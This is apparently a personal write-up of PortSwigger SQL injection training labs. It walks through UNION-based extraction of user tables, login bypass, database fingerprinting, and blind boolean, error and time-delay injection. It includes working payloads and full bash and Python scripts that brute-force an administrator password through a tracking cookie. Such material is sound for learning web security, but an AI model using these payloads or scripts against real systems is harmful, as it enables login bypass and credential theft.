> Author : lineeralgebra
{:.prompt-tip}

## **Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

before going attack we have to understand whats going on this code ;

```bash
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Get **all columns** (`*`) from the table **products** where the **category** is `'Gifts'` and the product **has been released** (`released = 1`).”

Lets try to trigger something on Gifts


Whats happenning here lets understand first.

```bash
SELECT * FROM products WHERE category = 'Gifts'' AND released = 1
```

It breaks the SQL syntax — the database sees an **unclosed string**, causing a **SQL error** → which the web app turns into an **“Internal Server Error.”**

Instead of running exist category we can try to inject some sql injection payload;

If sql query will be correct it wont give error like; 1=1;

```bash
'+OR+1=1--
```

and it will be support this sql query;

```bash
SELECT * FROM products WHERE category = 'Gifts'+OR+1=1--' AND released = 1
```

“Return all rows, because `1=1` is always true,”



## **Lab: SQL injection vulnerability allowing login bypass**

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

so its actually about same thing we did before. SQL query should be something like that;

```bash
SELECT * FROM users WHERE username = 'administrator' and password = 'password';
```

when we try to trigger login part with `'` we can see internal server error.



its because SQL query will return;

```bash
SELECT * FROM users WHERE username = 'administrator'' and password = 'password';
```

so we have to do same method for this

```bash
SELECT * FROM users WHERE username = 'administrator'-- ' AND password = '';
```

thats why `administrator'--`

and done.

## **Lab: SQL injection attack, querying the database type and version on Oracle**

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

This lab will be unique because of we are working on different databases; which is unique

With `'` i will trigger it again but before do this we saw


we saw its about oracle.

```bash
Accessories'+ORDER+BY+1+--
```

will show us if 1 column here;

```bash
Accessories'+ORDER+BY+2+--
```

we also have 2 

```bash
Accessories'+ORDER+BY+3+--
```



and get an **error**, it means **the query only has 2 columns** — because `ORDER BY 3` tries to sort by a non-existent column index.

Next step (in typical SQLi learning flow): use a **UNION-based injection** with **2 columns**, like:

```bash
' UNION SELECT 'A','B' FROM dual --
```

(`dual` is Oracle’s dummy table) — this helps you see where your injected data appears on the page.



so lets try to learn version number or something like that;

```bash
'+UNION+SELECT+banner,'B'+FROM+v$version+WHERE+rownum=1+--
```



and yeah it worked. and we done!!!

```bash
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

for pass the challenge idk whats the differnece tho.

## **Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.



Thats the biggest hint for this lab tho we just have to make sure for something;


i just verified with 500 internal server;

Here is order by method for testing out how many columns here;

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection.md#order-by-method](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#order-by-method)

and we will try all columns till find correct column count.



so we make sure now there is only 2 columns thats not mean if it will work on 3 columns

if your `ORDER BY` test shows **2 columns**, that means your query likely looks like something like:

```bash
SELECT col1, col2 FROM products WHERE category = '<input>';
```

Now to **learn the MySQL version**, you can use a `UNION SELECT` payload that matches the **same number of columns (2)**.

Try this:

```
' UNION SELECT @@version, NULL-- -
```



and done.

## **Lab: SQL injection attack, listing the database contents on non-Oracle databases**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data 
from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then 
retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

Actually that lab was fcking same just we have to make sure how much columns etc etc.


There is only 2 columns but we dont know which database is it. so here is the payload list u can verify

| Database | Test payload (2 columns example) | Expected behavior |
| --- | --- | --- |
| **MySQL** | `' UNION SELECT version(), NULL-- -` | Returns something like `8.0.36` or `5.7.42` |
| **MSSQL** | `' UNION SELECT @@version, NULL-- -` | Returns text starting with `Microsoft SQL Server` |
| **PostgreSQL** | `' UNION SELECT version(), NULL-- -` | Returns text like `PostgreSQL 14.5` |
| **Oracle** | `' UNION SELECT banner, NULL FROM v$version-- -` | Returns `Oracle Database 11g ...` or similar |
| **SQLite** | `' UNION SELECT sqlite_version(), NULL-- -` | Returns something like `3.31.1` |

and i tried this payloads and verified;



nice we verified its

`PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit`

and dont forget to we have to grab adminisrtator creds for finish the lab so my command will be to extract all table names;

```bash
' UNION SELECT table_name, NULL FROM information_schema.tables-- -
```



lets read columns from table

```bash
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_cipngu'-- -
```



now lets read usernames and passwords

```bash
' UNION SELECT username_vgiyfb, password_pdfwiu FROM users_cipngu-- -
```



and we got creds here

```bash
administrator: lje8uy0jxpmcmmsyouf0
```

## **Lab: SQL injection attack, listing the database contents on Oracle**

This lab contains a SQL injection vulnerability in the 
product category filter. The results from the query are returned in the 
application's response so you can use a UNION attack to retrieve data 
from other tables.

The application has a login function, and the database 
contains a table that holds usernames and passwords. You need to 
determine the name of this table and the columns it contains, then 
retrieve the contents of the table to obtain the username and password 
of all users.

To solve the lab, log in as the `administrator` user.

I just verified its oracle with;

| Database | Test payload (2 columns example) | Expected behavior |
| --- | --- | --- |
| **MySQL** | `' UNION SELECT version(), NULL-- -` | Returns something like `8.0.36` or `5.7.42` |
| **MSSQL** | `' UNION SELECT @@version, NULL-- -` | Returns text starting with `Microsoft SQL Server` |
| **PostgreSQL** | `' UNION SELECT version(), NULL-- -` | Returns text like `PostgreSQL 14.5` |
| **Oracle** | `' UNION SELECT banner, NULL FROM v$version-- -` | Returns `Oracle Database 11g ...` or similar |
| **SQLite** | `' UNION SELECT sqlite_version(), NULL-- -` | Returns something like `3.31.1` |

```bash
' UNION SELECT banner, NULL FROM v$version-- -
```



first of all lets do use same payloads for learn column names;


There is only 2 columns right so lets check what we can do;



and from here we can go to go columns name

```bash
Pets'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_OPEYMC'--+
```

this is how read columns name which is USERNAME_DUCGDU and PASSWORD_QIAPZH

```bash
Pets'+UNION+SELECT+USERNAME_DUCGDU,+PASSWORD_QIAPZH+FROM+USERS_OPEYMC--+-
```



## **Lab: SQL injection UNION attack, determining the number of columns returned by the query**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

First of all i trying to learn columns count of databases and now evertything changed;

```bash
'+ORDER+BY+1+-- -> ... -> ... -> '+ORDER+BY+4+--
```

from `4 - 1 = 3` we have 3 columns here.

This lab dont required to grab data i tried this payload and solved lab

```bash
' UNION SELECT NULL, NULL,NULL-- -
```

## **Lab: SQL injection UNION attack, finding a column containing text**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

As the mentions its the same method we have to go further first of all we have to undestand how many columns there;

```bash
'+ORDER+BY+1+-- -> ... -> ... -> '+ORDER+BY+4+--
```

from `4 - 1 = 3` we have 3 columns here.

So know lets check room description;

```bash
'UNION+select+null,+null,null--
```

will work cause there is 3 columns right now we have to find correct columns for or text `27IllxD7`

Everything we gave `null` → `â` should be output as `a` right?

For example at first column;



and it gave us `Internal Server Error` cause first columns is not correct one so lets try on second one;

```bash
'UNION+select+null,+'a',null--
```



so second one is correct one so for solve this lab we just have tho `a` → `27IllxD7`

and done

## **Lab: SQL injection UNION attack, retrieving data from other tables**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data 
from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

This time for columns count;

```bash
' ORDER+BY+1+-- -> ORDER+BY+2+-- -> ORDER+BY+3+--
```

we have just 2 columns here and look for what database is it.

| Database | Test payload (2 columns example) | Expected behavior |
| --- | --- | --- |
| **MySQL** | `' UNION SELECT version(), NULL-- -` | Returns something like `8.0.36` or `5.7.42` |
| **MSSQL** | `' UNION SELECT @@version, NULL-- -` | Returns text starting with `Microsoft SQL Server` |
| **PostgreSQL** | `' UNION SELECT version(), NULL-- -` | Returns text like `PostgreSQL 14.5` |
| **Oracle** | `' UNION SELECT banner, NULL FROM v$version-- -` | Returns `Oracle Database 11g ...` or similar |
| **SQLite** | `' UNION SELECT sqlite_version(), NULL-- -` | Returns something like `3.31.1` |

```bash
' UNION SELECT version(), NULL-- -
```

gave me database



we are working on PostgreSQL here.

so it will work here

```bash
' UNION+SELECT+'null',+'null'+--
```

so for table name;

```bash
'+UNION SELECT CONCAT(table_schema, '.', table_name), 'a' FROM information_schema.tables LIMIT 1-- -
```

from lab description we can verify it 

```bash
' UNION SELECT username::text, password::text FROM users LIMIT 50-- -
```

and read usernames and password


and done

## **Lab: SQL injection UNION attack, retrieving multiple values in a single column**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data 
from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that  retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

I did everything again with

This time for columns count;

```bash
' ORDER+BY+1+-- -> ORDER+BY+2+-- -> ORDER+BY+3+--
```

and i found there is only 2 columns now we will go step by step Now lets try to find correct columns



so second is correct

so now this one work `' UNION SELECT NULL, version()-- -`  NOT THIS ONE `' UNION SELECT version(), NULL-- -`

so lets grab username and pasword from users

```bash
' UNION SELECT NULL, (username || ':' || password)::text FROM public.users LIMIT 50-- -
```



and done

## **Lab: Blind SQL injection with conditional responses**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

this lab seems like pretty interesting lets check one website to find trigger something

As always if we are trying to trigger  `Gifts'`  for return 500 ınternal server



its seems like thats not the way!!! lets break down and looking for whats the diiference to grab `Welcome back` i think it will be easy to do on Burp Suite;



as u can see TrackingId is pretty interesting; if we can  try to trigger because of the `Welcome Back!` message right?

and i was able verify it with `'ORDER BY 1--+'` there is 1 column off course lets check on other ones and verify column count



wtf there is only 1 column? we can also verify there is sql server running with 

`'AND 1=1--` will give Welcome Back but  `AND 1=2--`  will not cause 1 = 2 is return false right?

now lets try to select `NULL` 

`UNION SELECT NULL--` will only return True lets try to fınd database 

| Database | Test payload (2 columns example) | Expected behavior |
| --- | --- | --- |
| **MySQL** | `' UNION SELECT version(), NULL-- -` | Returns something like `8.0.36` or `5.7.42` |
| **MSSQL** | `' UNION SELECT @@version, NULL-- -` | Returns text starting with `Microsoft SQL Server` |
| **PostgreSQL** | `' UNION SELECT version(), NULL-- -` | Returns text like `PostgreSQL 14.5` |
| **Oracle** | `' UNION SELECT banner, NULL FROM v$version-- -` | Returns `Oracle Database 11g ...` or similar |
| **SQLite** | `' UNION SELECT sqlite_version(), NULL-- -` | Returns something like `3.31.1` |

`' UNION SELECT version()-- -` only it will work because of



we could also verify  with this payload

```bash
' AND (SELECT 1 FROM (SELECT COUNT(*) FROM information_schema.tables) t WHERE 1=1)=1-- -;
```

it will return True because of there is mysql running right?

**Extraction strategy (boolean, character-by-character using binary search)**

General idea:

- For position `i` (1..n) ask: **Is ASCII(character at position i) > X ?**
- Use binary search on ASCII range (e.g. 32–126 printable) to get each character in ~7 requests.
- First find password length, then extract characters.

Below are ready payload templates. Insert your real `TRACKING_PREFIX` (the cookie value up to the single-quote you inject). The page will show “Welcome back” when the condition is **true**.

```bash
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

and point is to find length of password from 1 to n

```bash
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a
```

worked but 

```bash
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```

not so 20 char we have to find for our payload Burp Suite intruder will be hell so basic bash script should do that fastly;

```bash
#!/usr/bin/env bash
# bruteforce_pos.sh
# Try every character from charset for the requested position(s) using equality payload.
# Usage:
#   ./bruteforce_pos.sh POS_START [POS_END]
# Example:
#   ./bruteforce_pos.sh 1        # only position 1
#   ./bruteforce_pos.sh 1 3      # positions 1..3
#
# Edit USER CONFIG below before running.

###################### USER CONFIG ######################
TARGET="https://0a5400d703a9a51d80538f01007c0047.web-security-academy.net/"  # page URL
TRACKING_PREFIX="AoFzeZLoXD6WJW53"     # TrackingId prefix before injected single-quote
SESSION_COOKIE="s2TIIZgXoJm5lnbbJ6bgGRyAHjm0Wt6H"                       # if lab requires session=..., else leave empty
WELCOME_TEXT="Welcome back"             # text that indicates boolean TRUE
PW_LENGTH=19                            # known password length (used for sanity)
SLEEP=0.0                               # seconds between requests (supports floats on most systems)
CURL_TIMEOUT=15                         # seconds
#########################################################

# charset: lowercase then digits (your specified alphabet)
CHARSET="abcdefghijklmnopqrstuvwxyz0123456789"

# Build cookie header including session if present
build_cookie_header() {
  local inj="$1"
  if [[ -n "$SESSION_COOKIE" ]]; then
    printf "Cookie: TrackingId=%s; session=%s" "$inj" "$SESSION_COOKIE"
  else
    printf "Cookie: TrackingId=%s" "$inj"
  fi
}

# check candidate: returns 0 if welcome text found (match), 1 otherwise
# args: pos, candidate_char
check_candidate() {
  local pos="$1"
  local ch="$2"

  # payload: close TrackingId, then equality check (match your example)
  payload="${TRACKING_PREFIX}' AND (SELECT SUBSTRING(password,${pos},1) FROM users WHERE username='administrator')='${ch}'-- -"

  header=$(build_cookie_header "$payload")
  resp=$(curl -s -k --max-time "${CURL_TIMEOUT}" -H "$header" "$TARGET")

  if printf '%s' "$resp" | grep -qF "$WELCOME_TEXT"; then
    return 0
  else
    return 1
  fi
}

# parse args
if [[ $# -lt 1 ]]; then
  echo "Usage: $0 POS_START [POS_END]"
  exit 1
fi

POS_START="$1"
POS_END="${2:-$1}"

# basic sanity
if (( POS_START < 1 || POS_end := 0 )); then :; fi 2>/dev/null # noop to avoid shellcheck warnings
if (( POS_START < 1 || POS_END < POS_START )); then
  echo "[!] invalid positions"
  exit 1
fi
if (( POS_END > PW_LENGTH )); then
  echo "[!] Warning: POS_END ($POS_END) > PW_LENGTH ($PW_LENGTH). Adjust PW_LENGTH if needed."
fi

echo "[*] Target: $TARGET"
echo "[*] Prefix: $TRACKING_PREFIX"
echo "[*] Charset: $CHARSET"
echo "[*] Positions: $POS_START to $POS_END"
echo "[*] Sleep between requests: $SLEEP"
echo

password_guess=""

for pos in $(seq "$POS_START" "$POS_END"); do
  echo -n "[*] Position $pos: trying... "
  found=""
  for (( i=0; i<${#CHARSET}; i++ )); do
    ch="${CHARSET:i:1}"
    if check_candidate "$pos" "$ch"; then
      found="$ch"
      # append to guess at correct offset
      password_guess="${password_guess}${ch}"
      echo "$ch"
      break
    fi

    # sleep if set and >0 (no bc dependency)
    # handle float by using awk to compare; if awk absent it's okay, most systems have awk
    if [[ "$SLEEP" != "0" ]]; then
      sleep "$SLEEP"
    fi
  done

  if [[ -z "$found" ]]; then
    echo
    echo "[!] No matching character found for position $pos. Possible reasons:"
    echo "    - Charset doesn't include the actual character"
    echo "    - Payload format differs (try substituting different quoting/comment styles)"
    echo "    - Timing/response detection not reliable (adjust WELCOME_TEXT or CURL_TIMEOUT)"
    echo "[!] Current partial guess: $password_guess"
    exit 1
  fi
done

echo
echo "[+] Done. Partial password guess (positions $POS_START..$POS_END): $password_guess"
```

usage is; `bash a.sh 1 19` 

results;

```bash
➜  PortSwigger bash a.sh 1 20 
[!] Warning: POS_END (20) > PW_LENGTH (19). Adjust PW_LENGTH if needed.
[*] Target: https://0a860000047540fe80a6a31700ee0026.web-security-academy.net/
[*] Prefix: Et887k2UV3s0ibOK
[*] Charset: abcdefghijklmnopqrstuvwxyz0123456789
[*] Positions: 1 to 20
[*] Sleep between requests: 0.0

[*] Position 1: trying... k
[*] Position 2: trying... 3
[*] Position 3: trying... 2
[*] Position 4: trying... d
[*] Position 5: trying... t
[*] Position 6: trying... o
[*] Position 7: trying... x
[*] Position 8: trying... u
[*] Position 9: trying... o
[*] Position 10: trying... z
[*] Position 11: trying... y
[*] Position 12: trying... q
[*] Position 13: trying... 0
[*] Position 14: trying... i
[*] Position 15: trying... 1
[*] Position 16: trying... r
[*] Position 17: trying... h
[*] Position 18: trying... s
[*] Position 19: trying... 1
[*] Position 20: trying... 9

[+] Done. Partial password guess (positions 1..20): k32dtoxuozyq0i1rhs19
```

here is the full python code;

```python
#!/usr/bin/env python3
import requests
import time
import sys

# ---------------- USER CONFIG ----------------
TARGET = "https://0ae6008a0440f09a8008673900c400cb.web-security-academy.net"
TRACKING_PREFIX = "dTBRAU22NPypQXd2"
SESSION_COOKIE = "GJSokhWAvPDaW4Zamj0wfcLicynjV2tK"  # leave empty ("") if not required
WELCOME_TEXT = "Welcome back"
PW_LENGTH = 19
SLEEP = 0.0  # seconds
TIMEOUT = 15
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"
# ---------------------------------------------

def build_cookie(injection):
    """Return cookie dict for requests."""
    if SESSION_COOKIE:
        return {
            "TrackingId": injection,
            "session": SESSION_COOKIE
        }
    else:
        return {
            "TrackingId": injection
        }

def check_candidate(pos, ch):
    """Return True if candidate character matches."""
    payload = (
        f"{TRACKING_PREFIX}' AND "
        f"(SELECT SUBSTRING(password,{pos},1) FROM users WHERE username='administrator')='{ch}'-- -"
    )
    cookies = build_cookie(payload)
    try:
        r = requests.get(TARGET, cookies=cookies, timeout=TIMEOUT, verify=False)
        return WELCOME_TEXT in r.text
    except requests.RequestException:
        return False

def main():
    # --- Parse arguments like Bash script ---
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} POS_START [POS_END]")
        sys.exit(1)

    pos_start = int(sys.argv[1])
    pos_end = int(sys.argv[2]) if len(sys.argv) > 2 else pos_start

    if pos_start < 1 or pos_end < pos_start:
        print("[!] Invalid positions")
        sys.exit(1)

    if pos_end > PW_LENGTH:
        print(f"[!] Warning: POS_END ({pos_end}) > PW_LENGTH ({PW_LENGTH})")

    print(f"[*] Target: {TARGET}")
    print(f"[*] Prefix: {TRACKING_PREFIX}")
    print(f"[*] Charset: {CHARSET}")
    print(f"[*] Positions: {pos_start} to {pos_end}")
    print(f"[*] Sleep between requests: {SLEEP}\n")

    password_guess = ""

    # --- Main brute loop ---
    for pos in range(pos_start, pos_end + 1):
        print(f"[*] Position {pos}: trying...", end=" ", flush=True)
        found = None

        for ch in CHARSET:
            if check_candidate(pos, ch):
                found = ch
                password_guess += ch
                print(ch)
                break

            if SLEEP > 0:
                time.sleep(SLEEP)

        if not found:
            print("\n[!] No match found for position", pos)
            print("[!] Current partial:", password_guess)
            sys.exit(1)

    print(f"\n[+] Done. Partial password guess ({pos_start}..{pos_end}): {password_guess}")

if __name__ == "__main__":
    # Disable SSL warnings
    requests.packages.urllib3.disable_warnings()
    main()
```

## **Lab: Blind SQL injection with conditional errors**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

This time i found sql injection at TrackingId again but when we are trying to trigger with `'` it gave us `500 internal server error` 



okey so lets try to verify with our command we tried like

```bash
' AND 1=1-- -> True ' AND 1=2-- -> False right?d
```



okey there is something wrong right? so our payload is not work correctly what if i try something like that

```bash
'||+AND+1=2--
```



and then it worked

`||` means **string concatenation**.

So:

`' || AND 1=2--` → the `'` closes the first string, then `||` safely joins it with the rest — the query stays valid.

But

`' AND 1=2--` → closes the string **and directly starts a condition**, breaking the SQL syntax (missing operator or column).

✅ `' || 1=1--` → valid syntax

❌ `' AND 1=1--` → invalid syntax in Oracle.

And look for how many columns here;

```bash
'+||+ORDER+BY+1--
```



There is only 1 column

Lets go step by step from here and lets see if we can verify if its really Oracle

| Database | Test payload (2 columns example) | Expected behavior |
| --- | --- | --- |
| **MySQL** | `' UNION SELECT version(), NULL-- -` | Returns something like `8.0.36` or `5.7.42` |
| **MSSQL** | `' UNION SELECT @@version, NULL-- -` | Returns text starting with `Microsoft SQL Server` |
| **PostgreSQL** | `' UNION SELECT version(), NULL-- -` | Returns text like `PostgreSQL 14.5` |
| **Oracle** | `' UNION SELECT banner, NULL FROM v$version-- -` | Returns `Oracle Database 11g ...` or similar |
| **SQLite** | `' UNION SELECT sqlite_version(), NULL-- -` | Returns something like `3.31.1` |



Yeah its ORACLE



this is how i go step by step,

**Check if password length > N**

Replace `N` with a number to test:

```
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

My next plan is to find password length till its return 200



and length is 19 cause its return 200 when length is > 20

here is the bash script will gave us password for administrator

```bash
#!/usr/bin/env bash
# bruteforce_pos.sh
# Try every character from charset for the requested position(s).
# This version uses HTTP status code detection:
#   HTTP 500 (or other configured ERROR_CODE) => condition true (char is correct)
#   HTTP 200 (or other OK_CODE)             => condition false (char wrong)
#
# Usage:
#   ./bruteforce_pos.sh POS_START [POS_END]
#
###################### USER CONFIG ######################
TARGET="https://0a7c00c103ae118e80f508ae00f40027.web-security-academy.net/"  # page URL (include trailing / if needed)
TRACKING_PREFIX="RjZrxcuqmAvbWF10"     # TrackingId prefix before injected single-quote
SESSION_COOKIE="zLNulvTxoMLbhZBzuSZ1u9vOYenq4ZAr"                       # if lab requires session=..., else leave empty

# HTTP detection:
# If the app returns 500 on SQL error (your lab), set ERROR_CODE=500
ERROR_CODE=500
# Optionally set an expected OK code (usually 200)
OK_CODE=200

PW_LENGTH=19                            # known password length (used for sanity)
SLEEP=0.0                               # seconds between requests (supports floats on most systems)
CURL_TIMEOUT=15                         # seconds
#########################################################

# charset: lowercase then digits (your specified alphabet)
CHARSET="abcdefghijklmnopqrstuvwxyz0123456789"

# Build cookie header including session if present
build_cookie_header() {
  local inj="$1"
  if [[ -n "$SESSION_COOKIE" ]]; then
    printf "Cookie: TrackingId=%s; session=%s" "$inj" "$SESSION_COOKIE"
  else
    printf "Cookie: TrackingId=%s" "$inj"
  fi
}

# Build error-based Oracle payload using CASE WHEN ... THEN TO_CHAR(1/0) ELSE '' END
# args: pos, candidate_char
build_payload() {
  local pos="$1"
  local ch="$2"
  # Use doubled single-quotes inside printf to escape them properly for the SQL literal.
  printf "%s'||(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),%d,1)='%s') THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'" "$TRACKING_PREFIX" "$pos" "$ch"
}

# check candidate: returns 0 if match (HTTP status == ERROR_CODE), 1 otherwise
# args: pos, candidate_char
check_candidate() {
  local pos="$1"
  local ch="$2"

  payload=$(build_payload "$pos" "$ch")
  header=$(build_cookie_header "$payload")

  # Get only HTTP status code. -s silent, -S show error, -k ignore cert, -m timeout
  http_code=$(curl -s -k -m "${CURL_TIMEOUT}" -o /dev/null -w "%{http_code}" -H "$header" "$TARGET")

  if [[ "$http_code" -eq "$ERROR_CODE" ]]; then
    # Condition TRUE (we caused SQL error) => candidate is correct
    return 0
  else
    # Not the error code (likely OK_CODE), candidate wrong
    return 1
  fi
}

# parse args
if [[ $# -lt 1 ]]; then
  echo "Usage: $0 POS_START [POS_END]"
  exit 1
fi

POS_START="$1"
POS_END="${2:-$1}"

# basic sanity
if ! [[ "$POS_START" =~ ^[0-9]+$ ]] || ! [[ "$POS_END" =~ ^[0-9]+$ ]]; then
  echo "[!] Positions must be positive integers"
  exit 1
fi

if (( POS_START < 1 || POS_END < POS_START )); then
  echo "[!] invalid positions"
  exit 1
fi
if (( POS_END > PW_LENGTH )); then
  echo "[!] Warning: POS_END ($POS_END) > PW_LENGTH ($PW_LENGTH). Adjust PW_LENGTH if needed."
fi

echo "[*] Target: $TARGET"
echo "[*] Prefix: $TRACKING_PREFIX"
echo "[*] Session cookie: ${SESSION_COOKIE:+set}"
echo "[*] Detecting ERROR HTTP code: $ERROR_CODE (match means char correct)"
echo "[*] Charset: $CHARSET"
echo "[*] Positions: $POS_START to $POS_END"
echo "[*] Sleep between requests: $SLEEP"
echo

password_guess=""

for pos in $(seq "$POS_START" "$POS_END"); do
  echo -n "[*] Position $pos: trying... "
  found=""
  for (( i=0; i<${#CHARSET}; i++ )); do
    ch="${CHARSET:i:1}"
    if check_candidate "$pos" "$ch"; then
      found="$ch"
      password_guess="${password_guess}${ch}"
      echo "$ch (HTTP $ERROR_CODE)"
      break
    else
      # Optionally show progress dot (comment out if noisy)
      printf '.'
    fi

    # sleep if set and >0 (support floats)
    if [[ "$SLEEP" != "0" ]]; then
      sleep "$SLEEP"
    fi
  done

  if [[ -z "$found" ]]; then
    echo
    echo "[!] No matching character found for position $pos. Possible reasons:"
    echo "    - Charset doesn't include the actual character"
    echo "    - Payload format differs (try different quoting/comment styles)"
    echo "    - The server returns a different HTTP code on error (adjust ERROR_CODE)"
    echo "    - Cookie normalization / encoding issues"
    echo "[!] Current partial guess: $password_guess"
    exit 1
  fi
done

echo
echo "[+] Done. Partial password guess (positions $POS_START..$POS_END): $password_guess"
```

usage

```bash
bash a.sh 1 20
[SNIP]
[+] Done. Partial password guess (positions 1..20): ms0wjjwhl3dwr0eez3fj
```

## **Lab: Blind SQL injection with time delays**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Here is the payloads for databases we can try;

You can cause a time delay in the database when the query is
 processed. The following will cause an unconditional time delay of 10 
seconds.

| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| --- | --- |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT pg_sleep(10)` |
| MySQL | `SELECT SLEEP(10)` |

After u try u can verify here in real tests tho;



and we are done!

## **Lab: Blind SQL injection with time delays and information retrieval**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is 
executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Example payload (URL-encoded in the solution):

```bash
TrackingId=zV5LOujuRSyREXTp'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```



The app probably runs something like:

```bash
SELECT ... WHERE tracking_id = '<TrackingId from cookie>';
```

- By including a quote (`'`) you break out of that string and can append your own SQL.
- `%3B` (decoded `;`) — ends the previous SQL statement so we can start a new one:
    
    ```
    ; SELECT CASE WHEN (...) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users --
    ```
    

**Length > N**

```bash
<PREFIX>'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>N)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--
```



if we wanna check password length is > 20 



nice our password length is 20 so lets do brute force here



and for password


start attack and boommmm



administrator : `i3f9wonl6yfo4a7z7e7e`